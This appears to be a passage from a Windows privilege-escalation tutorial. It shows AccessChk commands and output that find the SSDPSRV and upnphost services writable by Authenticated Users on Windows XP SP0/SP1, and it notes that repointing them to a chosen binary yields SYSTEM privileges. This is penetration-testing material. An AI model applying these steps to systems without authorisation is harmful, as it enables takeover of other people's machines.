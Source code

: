 https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip%0D

C:\> accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# If we are on a Windows XP SP0 or SP1 OS we will receive the following output
								 
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS								 
							 

The output implies that we have access to two services from which we can edit the service parameters, named upnphost and SSDPSRV. Let's take a closer look at both services.


# SSDPSRV
								 
C:\> accesschk.exe /accepteula -ucqv SSDPSRV
SSDPSRV
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS
								 
# upnphost

C:\> accesschk.exe /accepteula -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\LOCAL SERVICE
        SERVICE_ALL_ACCESS								 
							 

When we edit these services so they execute a binary of our choice, we can escalate our privileges to SYSTEM.
